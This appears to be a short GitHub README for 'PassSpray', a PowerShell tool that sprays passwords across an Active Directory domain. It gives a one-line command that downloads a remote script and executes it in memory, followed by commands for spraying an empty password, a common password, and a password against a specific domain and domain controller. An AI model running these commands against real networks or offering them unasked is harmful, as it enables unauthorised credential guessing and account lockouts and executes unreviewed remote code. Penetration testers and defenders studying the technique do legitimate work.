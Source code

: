 # PassSpray
Domain Password Spray

Important: Spraying passwords increases the Bad Pwd Count of the user you are trying to validate credentials for (for each wrong attempt)

### Load PassSpray in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Validate-Credentials/main/Validate-Credentials.ps1')
```

### Spray Empty password
```
PassSpray
```

### Spray a password across the Domain
```
PassSpray -Password P@ssw0rd!
```

### Spray a password across the Domain - Specify Domain and DC
```
PassSpray -Password P@ssw0rd! -Domain ferrari.local -DomainController DC01.ferrari.local
```
